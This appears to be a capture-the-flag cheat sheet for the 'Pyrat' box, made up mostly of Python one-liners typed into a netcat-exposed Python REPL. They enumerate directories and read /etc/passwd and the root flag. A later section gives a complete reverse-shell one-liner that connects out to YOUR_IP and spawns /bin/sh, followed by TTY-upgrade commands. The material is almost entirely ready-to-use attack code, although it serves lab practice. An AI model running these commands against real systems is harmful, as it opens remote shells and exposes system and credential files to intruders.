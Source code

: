
### 🐍 Python One-Liners for Navigation in Netcat

#### 📂 List directories

```python
import os; print(os.listdir("/"))
```

List contents of `/home`:

```python
import os; print(os.listdir("/home"))
```

#### 📖 Read a file

```python
print(open("/etc/passwd").read())
```

Or:

```python
print(open("/home/pyrat/user.txt").read())
```

#### 📌 Get current working directory

```python
import os; print(os.getcwd())
```

#### 🔁 Change directory

```python
import os; os.chdir("/home/pyrat"); print(os.listdir())
```

#### 👤 Get username

```python
import os; print(os.getlogin())
```

#### 🆔 Get UID/GID

```python
import os; print(os.getuid(), os.getgid())
```

---

### 🔑 Quick Workflow in Pyrat

From your nc Python REPL:

1. See where you are:

   ```python
   import os; print(os.getcwd())
   ```
2. Check `/home`:

   ```python
   import os; print(os.listdir("/home"))
   ```
3. Read the user flag:

   ```python
   print(open("/home/pyrat/user.txt").read())
   ```
4. Look into `/root` for the root flag:

   ```python
   print(open("/root/root.txt").read())
   ```
## ADVANCED.
## 🐍 Python One-Liners for Netcat REPL
### 📂 **Directory Navigation**

```python
import os; print(os.getcwd())                       # current working dir
import os; print(os.listdir("/"))                   # list root dir
import os; print(os.listdir("/home"))               # list /home
import os; os.chdir("/home/pyrat"); print(os.getcwd())  # change dir
```

---

### 📖 **File Reading**

```python
print(open("/etc/passwd").read())                   # read entire file
print(open("/home/pyrat/user.txt").read())          # read user flag
print(open("/root/root.txt").read())                # read root flag
print(open("/etc/hosts").read())                    # read hosts file
```

*Read file line by line*:

```python
[print(line.strip()) for line in open("/etc/passwd")]
```

---

### 👤 **User / System Info**

```python
import os; print(os.getlogin())                     # current user
import os; print(os.getuid(), os.getgid())          # uid/gid
import platform; print(platform.uname())            # system info
```

---

### 🔍 **Search / Enumeration**

```python
import os; [print(f) for f in os.listdir("/var/www")]   # list web dir
import os; [print(f) for f in os.listdir("/tmp")]       # list tmp dir
```

*Recursive walk*:

```python
import os; [print(os.path.join(dp, f)) for dp, dn, fn in os.walk("/home") for f in fn]
```

---

### ⚡ **File Writing / Uploads**

```python
open("/tmp/test.txt","w").write("Hello from Python!")  # write file
```

---

### 🔄 **Execute Commands (if allowed)**

If `subprocess` works:

```python
import subprocess; print(subprocess.getoutput("id"))
import subprocess; print(subprocess.getoutput("ls -la /home"))
```

---

### 📡 **Reverse Shell (if outbound works)**

```python
import socket,subprocess,os; s=socket.socket(); s.connect(("YOUR_IP",1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh","-i"])
```

*(then listen on your machine with `nc -lvnp 1234`)*

---

## 🚀 Quick Attack Flow

1. See where you are:

   ```python
   import os; print(os.getcwd())
   ```
2. Check `/home`:

   ```python
   import os; print(os.listdir("/home"))
   ```
3. Read flags:

   ```python
   print(open("/home/pyrat/user.txt").read())
   print(open("/root/root.txt").read())
   ```
4. If blocked → enumerate recursively:

   ```python
   import os; [print(p) for p in os.listdir("/")]
   ```


   🛠️ Post-Reverse Shell Upgrade (Optional)\
Once you catch the shell:


nc -lvnp 4444

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
CTRL+Z
stty raw -echo; fg
```
